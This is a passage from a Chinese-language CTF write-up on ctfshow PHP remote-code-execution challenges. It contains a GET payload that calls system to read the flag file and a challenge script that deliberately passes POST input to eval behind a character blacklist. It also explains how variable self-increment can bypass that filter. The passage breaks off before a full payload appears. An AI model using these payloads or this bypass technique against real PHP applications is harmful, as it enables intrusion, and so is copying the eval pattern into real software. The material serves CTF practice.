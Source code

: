 ```php
注意post用url编码后使用。
get：?_=system&__=cat /f*;
```

```php
在写这题时，使用了在学习PHP命令执行自增绕过时的脚本，得到的是，但无结果，后面发现可能是不能在一个参数中将命令全部拼接起来，而是要多个参数，比如上面的?_=system&__=cat /f*;
```



## RCE3

```php
<?php
//本题灵感来自研究Y4tacker佬在吃瓜杯投稿的shellme时想到的姿势，太棒啦~。
error_reporting(0);
highlight_file(__FILE__);

if (isset($_POST['ctf_show'])) {
    $ctfshow = $_POST['ctf_show'];
    if (is_string($ctfshow) && strlen($ctfshow) <= 105) {
        if (!preg_match("/[a-zA-Z2-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",$ctfshow)){
            eval($ctfshow);
        }else{
            echo("Are you hacking me AGAIN?");
        }
    }else{
        phpinfo();
    }
}
?>

```

由于做了很多正则匹配，所以利用一个脚本来查看哪些字符可以使用

```php
for ($i=32;$i<127;$i++){
        if (!preg_match("/[a-zA-Z2-9!'@#%^&*:{}\-<\?>\"|`~\\\\]/",chr($i))){
            echo chr($i)." ";
        }
}

//post可传入的字符如下
//  0 $ 1 ( ) + , . / ; = [ ] _ 
```

```
从题目可以看出post传参被正则限制的厉害，想着同时进行get传参，但是限制了post参数长度(<=105)。使非数字绕过，_/_非法运算时返回NAN，通过变量自增，组装$*POST[*]，以便达到post传参，执行远程命令。
```
